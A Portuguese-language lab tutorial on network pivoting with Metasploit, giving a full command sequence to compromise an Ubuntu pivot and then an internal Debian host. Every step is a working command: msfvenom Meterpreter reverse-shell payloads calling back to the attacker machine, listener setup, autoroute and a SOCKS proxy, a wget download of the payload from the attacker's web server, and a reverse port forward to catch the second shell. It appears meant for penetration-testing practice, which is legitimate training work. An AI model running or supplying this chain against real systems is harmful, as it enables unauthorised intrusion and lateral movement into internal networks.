

## Cenário do Laboratório

- **Atacante (Kali Linux)**: `10.0.0.4`
- **Alvo Inicial (Ubuntu)**: `10.0.0.5` (pivô, com acesso à rede interna `10.5.0.0/24`)
- **Alvo Final (Debian)**: `10.5.0.3`

O atacante não tem acesso direto ao Debian, apenas ao Ubuntu.

## 1. Geração do Payload Inicial (Ubuntu/Pivô)

No Kali, gere um payload Meterpreter para o Ubuntu (pivô) :

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.4 LPORT=4444 -f elf -o shell.elf
```

## 2. Configuração do Listener

No Kali, inicie o Metasploit e configure o handler :

```bash
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.4
set LPORT 4444
exploit -j
```

## 3. Execução do Payload no Ubuntu (Pivô)

Transfira o `shell.elf` para o Ubuntu, dê permissão de execução e execute :

```bash
chmod +x shell.elf
./shell.elf
```

No Kali, uma sessão Meterpreter será aberta. Interaja com ela:

```bash
sessions -i 1
```

## 4. Configuração do Pivoteamento (Autoroute)

Com a sessão Meterpreter ativa, adicione uma rota para a rede interna `10.5.0.0/24` :

```bash
# Dentro da sessão Meterpreter
run autoroute -s 10.5.0.0/24
run autoroute -p # Verifica as rotas ativas
```

Isso permite que módulos do Metasploit acessem a rede interna através do pivô .

## 5. Configuração do Proxy SOCKS (Opcional)

Para usar ferramentas externas (como `nmap` ou `curl`) via pivô, configure um proxy SOCKS :

```bash
# Em outra aba do Kali
msfconsole -q
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run -j
```

Adicione ao `/etc/proxychains.conf`: `socks4 127.0.0.1 9050` e use com `proxychains` .

## 6. Geração do Payload para a Rede Interna (Debian)

Agora, gere um payload que se conecte **ao IP do pivô (10.0.0.5)**, e não diretamente ao Kali, pois o Debian só vê o Ubuntu :

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=6666 -f elf -o debian_shell.elf
```

## 7. Transferindo o Payload via Pivô

Você pode usar o Meterpreter para enviar o `debian_shell.elf` para o Debian. Primeiro, suba um servidor web no Kali:

```bash
python3 -m http.server 8000
```

De dentro da sessão Meterpreter no Ubuntu, use o `wget` para baixar o payload no Debian (se tiver acesso):

```bash
meterpreter > shell
wget http://10.0.0.4:8000/debian_shell.elf
chmod +x debian_shell.elf
```

## 8. Forwarding de Porta Reversa (Reverse Port Forward)

Precisamos que o Ubuntu (pivô) encaminhe a conexão do Debian na porta `6666` de volta para o Kali na porta `6666`. Isso é feito com `portfwd` no Meterpreter :

```bash
# De dentro da sessão Meterpreter do Ubuntu
portfwd add -R -L 10.0.0.4 -l 6666 -p 6666
```

## 9. Executando o Payload no Debian e Capturando a Shell

No Debian, execute o payload:

```bash
./debian_shell.elf
```

A conexão será roteada através do Ubuntu e chegará ao Kali. Para capturá-la, inicie um novo handler no Metasploit para a porta `6666` :

```bash
# Em outra aba do Kali ou parando o job anterior
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.4
set LPORT 6666
exploit -j
```

## 10. Conexão Final

Você deve ver uma nova sessão Meterpreter no Kali (`sessions`), confirmando que a shell do Debian foi capturada com sucesso através do pivô .

## Resumo do Fluxo


